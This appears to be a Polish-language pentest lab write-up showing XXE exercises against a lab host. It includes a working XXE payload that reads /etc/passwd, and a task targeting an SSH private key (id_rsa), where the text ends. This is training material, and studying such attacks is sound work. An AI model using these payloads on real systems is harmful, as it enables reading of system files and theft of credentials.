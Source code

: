 Odczytanie informacji:

![img_6.png](img/img_6.png)

## Ćwiczenia studia Pentest
### Nazwa użytkownika
Celem zadania jest wykorzystanie podatności XXE w celu odczytania pliku /etc/passwd.  
Flagą do zadania jest nazwa użytkownika systemowego- nazwę użytkownika należy wysłać formularzem na platformie.  
URL:
http://192.168.100.63

Payload:
```xml
<!DOCTYPE pjatk [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>
 <PLANT>
 <COMMON>&xxe;</COMMON>
 <BOTANICAL>Sanguinaria canadensis</BOTANICAL>
 <ZONE>4</ZONE>
 <LIGHT>Mostly Shady</LIGHT>
 <AVAILABILITY>031599</AVAILABILITY>
 </PLANT>
```
### Klucz prywatny
Celem zadania jest wykorzystanie podatności XXE w celu odczytania klucza prywatnego wcześniej zlokalizowanego użytkownika.
Domyślna ścieżka do klucza: /home/sshadmin/.ssh/id_rsa  
